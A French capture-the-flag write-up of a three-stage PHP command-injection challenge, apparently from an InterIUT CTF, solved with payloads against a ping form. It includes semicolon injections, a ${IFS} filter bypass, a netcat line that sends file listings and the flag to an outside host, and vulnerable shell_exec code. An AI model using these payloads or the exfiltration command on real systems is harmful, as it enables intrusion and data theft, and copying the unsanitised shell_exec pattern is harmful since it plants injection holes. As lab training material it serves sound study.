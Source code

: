 # DéDéOS

Ce challenge est découpé en 3 parties. Nous accédons à chaque fois à une page similaire où il faudra faire une injection de commandes shell. À chaque étape de nouveaux tests sont effectués pour empêcher les injections.



## DéDéOS 1 - 10 pts

> Serveur de déni de service en masse pour les 1337 h4xorz. Essayer de prouver au propriétaire que c'est de la merde. Lire le fichier  contenant le flag.
>
> http://dedeos-1.interiut.ctf/

La page présente un formulaire où entrer une adresse IP. Nous pouvons supposer que le code PHP (des headers PHP sont envoyés par le serveur) fait un ping de cette IP pour afficher `Cible atteinte` ou `Cible non atteignable` sur la page.

On essaie d'injecter `;ls;` par exemple et nous obtenons carrément la sortie de la commande :

Nous pouvons faire `;ls -lRa;` pour localiser le flag puis `;cat secret/the/flag/is/here/.flag;` pour l'afficher.

On peut également afficher le code PHP :

```php
if(isset($_POST['submit']) && isset($_POST['ip']) && !empty($_POST['ip'])){
    $ip = $_POST['ip'];
    echo "<p>Résultat de l'attaque :</p>";
    echo "<pre>".shell_exec("ping -c 1 $ip > /dev/null && echo 'Cible atteinte' || echo 'Cible non atteignable'")."</pre>";
}
```

(Ce code sera le même au fil des étapes mais des vérifications seront effectuées sur notre entrée.)

## DéDéOS 2 - 20 pts 

> ​    Le propriétaire s'est rendu compte de votre talent, il vous met au défi de nouveau
>
> http://dedeos-2.interiut.ctf/

La page semble identique à la précédente. `;ls;` renvoie une réponse mais `;ls -lRa;` ne passe pas : `Attaque malicieuse détectée`. Il semblerait que les espaces soient interdits. Il suffit alors de les remplacer par `${IFS}` ! En effet, `;ls${IFS}-laR;` nous énumère les fichiers et `;cat${IFS}flag/it/is/soon/here/flag.md;` affiche le flag.

Le code qui nous testait :

```php
if(isset($_POST['submit']) && isset($_POST['ip']) && !empty($_POST['ip'])){
    $ip = $_POST['ip'];
    if(strstr($ip, " ")){
        die("<pre>Attaque malicieuse détectée.</pre>");
    }
    echo "<p>Résultat de l'attaque :</p>";
    echo "<pre>".shell_exec("ping -c 1 $ip > /dev/null && echo 'Cible atteinte' || echo 'Cible non atteignable'")."</pre>";
}
```

## DéDéOS 3 - 50 pts

Cette fois-ci `;ls;` ne passe pas car les `;` sont interdits. Compte tenu de la structure de la commande, je pense qu'il n'y a que 2 solutions : une injection en blind en jouant avec le code de retour (très long et on est pas dans du misc) ou alors exfiltrer des données avec netcat par exemple.

Je lance netcat en écoute sur le port 2020 de mon VPS puis j'injecte `||ls${IFS}-laR|nc${IFS}ribt.fr${IFS}2020`. Je récupère bien la liste des fichiers et `||cat${IFS}.secret/2/1/3/flag.txt|nc${IFS}ribt.fr${IFS}2020` me permet de récupérer le flag.

Le code :

```php
if(isset($_POST['submit']) && isset($_POST['ip']) && !empty($_POST['ip'])){
    $ip = $_POST['ip'];
    if(strstr($ip, " ") || strstr($ip, ";")){
        die("<pre>Attaque malicieuse détectée.</pre>");
    }
    echo "<p>Résultat de l'attaque :</p>";
    echo "<pre>".shell_exec("ping -c 1 $ip > /dev/null && echo 'Cible atteinte' || echo 'Cible non atteignable'")."</pre>";
}
```

Légèrement déçu de ne pas aller plus loin avec des interdictions de lettres par exemple...